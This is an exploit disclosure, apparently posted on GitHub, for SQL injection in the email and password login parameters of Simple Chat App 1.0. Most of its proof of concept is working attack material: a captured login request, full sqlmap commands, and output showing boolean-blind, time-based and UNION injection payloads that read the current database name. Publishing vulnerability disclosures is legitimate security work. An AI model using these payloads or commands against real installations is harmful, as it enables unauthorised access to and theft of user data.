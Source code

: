 # Simple Chat App - SQL Injection - 1
+ **Exploit Title:** Simple Chat App - SQL Injection - 1
+ **Date:** 2024-12-05
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/simple-chat-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/55a2b6be-cd54-4114-8d04-2ba66d0bc11a 
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Simple Chat App 1.0 allows SQL Injection via the 'email' and 'password' parameters at "localhost/chat_project/login.php/". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/chat_project/login.php/"
+ Write something random in the email and password fields and press the login button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /chat_project/login.php HTTP/1.1
Host: localhost
Content-Length: 34
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/chat_project/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss
Connection: close

email=a%40mail.com&password=123456

```
### Email
+ Use sqlmap to exploit. In sqlmap, use 'email' parameter to dump the database.
```
sqlmap -r r.txt -p email --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: email=a@mail.com' AND 9749=9749-- KdYx&password=123456

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=a@mail.com' AND (SELECT 9877 FROM (SELECT(SLEEP(5)))lVQU)-- EjZN&password=123456

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: email=-7652' UNION ALL SELECT NULL,CONCAT(0x71766a6271,0x457763724c4c4168474a74424569556541765061755964454256745558495952424142794f456d4d,0x71707a7171),NULL,NULL,NULL,NULL,NULL-- -&password=123456
---
[11:18:16] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:18:17] [INFO] fetching current database
current database: 'tutorial_db'

```
+ current database: `tutorial_db`

![Ekran görüntüsü 2024-05-15 043749](https://github.com/BurakSevben/CVEs/assets/117217689/a9d89518-a797-455b-91e4-75e0f3836a87)



### Password
+ Use sqlmap to exploit. In sqlmap, use 'password' parameter to dump the database.
```
sqlmap -r r.txt -p password --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: email=a@mail.com&password=123456' AND 1803=1803-- qtWF

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=a@mail.com&password=123456' AND (SELECT 9368 FROM (SELECT(SLEEP(5)))Jxjo)-- Dafc

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: email=a@mail.com&password=-4638' UNION ALL SELECT NULL,CONCAT(0x71766a6271,0x7653587a4a7542676a55416f514a655366464b576b4b4c447977694f616b676e4b68757a554f6c76,0x71707a7171),NULL,NULL,NULL,NULL,NULL-- -
---
[11:19:31] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12, PHP
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:19:31] [INFO] fetching current database
current database: 'tutorial_db'

```
+ current database: `tutorial_db`

![Ekran görüntüsü 2024-05-15 044215](https://github.com/BurakSevben/CVEs/assets/117217689/b520c059-50ca-43c3-b3f9-2d1f1eab9cc1)
